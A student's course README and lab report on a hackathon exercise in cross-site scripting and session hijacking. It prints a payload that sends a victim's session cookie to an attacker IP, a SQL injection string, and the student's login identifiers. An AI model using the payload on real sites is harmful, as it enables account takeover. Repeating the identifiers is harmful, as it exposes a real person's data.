









# Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo]()

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:
<a onclick=window.location='http://192.168.56.102/?cookie=+document.cookie>click here</a> 

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
